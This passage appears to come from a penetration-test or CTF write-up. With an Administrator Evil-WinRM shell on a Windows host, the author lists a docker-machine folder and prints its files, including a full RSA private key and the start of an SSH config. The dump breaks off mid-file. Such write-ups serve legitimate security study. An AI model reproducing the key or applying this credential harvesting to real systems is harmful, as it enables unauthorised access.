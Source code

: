 ### docker-machine

Some `docker-machine` related stuff found but the `192.168.99.100:22` docker *default* virtual machine's port was not reachable anyways from other hosts in the intranet (VM's local SSH port was not exposed, I guess):

```
*Evil-WinRM* PS C:\Users\Administrator\.docker\machine\machines\default> ls


    Directory: C:\Users\Administrator\.docker\machine\machines\default


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----          7/9/2020   7:44 AM            default
-a---          9/4/2019   2:50 AM   58720256 boot2docker.iso
-a---          7/9/2020   7:47 AM       1054 ca.pem
-a---          7/9/2020   7:47 AM       1094 cert.pem
-a---          7/9/2020   7:48 AM       3002 config.json
-a---          7/9/2020   7:46 AM 6189219840 disk.vmdk
-a---          9/4/2019   2:50 AM       1679 id_rsa
-a---          9/4/2019   2:50 AM        381 id_rsa.pub
-a---          7/9/2020   7:47 AM       1679 key.pem
-a---          7/9/2020   7:47 AM       1675 server-key.pem
-a---          7/9/2020   7:47 AM       1127 server.pem


*Evil-WinRM* PS C:\Users\Administrator\.docker\machine\machines\default> gc id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAwiHc7jhJb9yi1zaH7cUUjRUqrLM6n1o2ZKDRpyfVJ5seS/oz
dMJ0/uAgEuqboxZIixXoYmVMPon0Wrx+nmecCzUUCp3pI7Wihu18JozrEL6xSiUX
1LNE36+n5N5KjZ6oUUATZyxYh8IPexisSKYIJPKa98JKxZkrnTaRgDXlpXRHP+Ax
cY+WT/LR2XktCyOgFSQll/JIKLzbfbRGkcJgQRI03xy6KuvHJbQXK1eYBpf8nbzK
jEt6luwj0GqQ9BHCPrVm8NTCA2QxHZqxs/KmeHq5jVYd6CPzM9+r1VBcXLjWA0rc
/WYDeLmAECCaSTFnC0nNvvK5NoMa0h6Kad3kDwIDAQABAoIBAHclz3IJ69CTCwKp
fk3JWq6oYhOywPUSqjWimmpMQT/YrYSWIES2IJZZunXBthonUAjFPmY9o8jyZJ3X
+KKCFryuLAnEF1YKYaEMWtlSPed+ElPeZjzudgQPzCzk3b8DtGyBtibpicBws42q
e/rupCsBF2mevsN+Gc2Ysz6MVdDwdW14Yvp/6Vq7u3KMrEj+LyN9cyzrurDhTByb
UI/XWklSUPIBN6cuqSULW4GkK1GOQMjnkDd5prizxA4+lHT1YY956joHKEBcp/bq
j4iGLe0eKiOtQ5HFjAROowaiFmyeYnHPztFGMmC0Q+EBQl8ZM9q0Cpo4AZGAros8
d2+kupkCgYEAzunLL3tRp4a+c8ViLcDkhcV9JVJw4TIPDMmemB9gw70xgJCZyMwB
6KrEiT/qk/KfL58JxT7DCAG3eM2mlL0dmrfEwzcPugPtsAXZg65tFn+PO7UgupS8
z6LZbXj07a3ygkty0v60UInAdbdTq08ZyOMGlJOEiMSZ0TJJPB+GcpUCgYEA8C/b
opI7CA4rgCVcxCCqA1s9BxEC9FWx5LzvXa+6u6CCBIeGGHCjASMLgPsG/9QJYnBs
tguXUFiJOoFR6NTOukzXdqInpCxqhI7MsLkHRlbfUIr93MRVitnPrA7RSKTUBEZl
D120HQL0DAM9zkr4CZDDJE4bV/plktef4LY4FxMCgYEAlDbynfuHHSqvCDzuu/l9
eLljkLWCOD3ke/N80FlBtlSyvfZWwngoMeMJT4tiXEIidzlEBW+Uwwp/w2AEoGzr
ZOWYY4HwmP2xaDJ4ghQS/le3YTy4yg47RbzQZNONFyhQG7cx9CQRQ9O48lm07HSH
8td04j7dZB74U9rijNfENhUCgYEAhfabcQRQioCkwJeWMwno6XBVDIDvfeniC6tZ
co6V/xpaCj6wiycfs32hZ/IbCEtyZIZCDBNQ9Q48k/YXAl7XYs+DCXcN1yKy0nZ3
MkYxCYlgiqLLTvvunkA39UZackMEwdGlgjmIQPopth2Etm/YAjXMsY4i8CIHzywW
zxWzGSMCgYAjaZia7gj/+xSQhcH/Rq0J4qErbDHD/m15ki+/IqLYfvwYIsd/wYdN
DcJLPzy3n5fU3JtfJsEJapvTY8vygqABHz5EeCQf+yrNDv5/Q4lAhXhOB87AcXfL
0GwZ3NA+Jc/F/Fe2qLYNSCuNC/y1c3qIt5QBNvPYXW3H9+cVNgPwNA==
-----END RSA PRIVATE KEY-----
*Evil-WinRM* PS C:\Users\Administrator\.docker\machine\machines\default> gc config.json
{
    "ConfigVersion": 3,
    "Driver": {
        "IPAddress": "192.168.99.100",
        "MachineName": "default",
        "SSHUser": "docker",
        "SSHPort": 60335,
```